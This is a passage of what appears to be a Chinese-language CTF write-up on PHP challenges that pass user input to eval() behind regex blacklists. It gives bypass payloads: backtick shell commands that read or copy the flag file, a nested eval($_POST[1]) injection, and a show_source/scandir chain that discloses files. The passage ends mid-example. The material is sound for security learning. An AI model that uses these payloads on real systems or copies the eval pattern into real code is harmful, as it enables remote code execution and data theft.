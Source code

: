 ```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

payload

```
echo `cat fla_.ph_`;
or
`cp f* 1.txt`; 打开1.txt
```

#### 31

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

过滤了空格，命令行函数可能直接用不了

可以嵌套一下

**GET:**`?c=eval($_POST[1]);`

**POST:**`1=phpinfo();`

没过滤就很轻松了

hint介绍了一种新的payload:

`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

> **show_source — 别名 highlight_file()**
>
> **pos — 别名current()**

> **next**
>
> 将数组中的内部指针向前移动一位 
>
> **current**
>
> 返回数组中的当前值
>
> ```php
> <?php
> $transport = array('foot', 'bike', 'car', 'plane');
> $mode = current($transport); // $mode = 'foot';
> $mode = next($transport);    // $mode = 'bike';
> $mode = next($transport);    // $mode = 'car';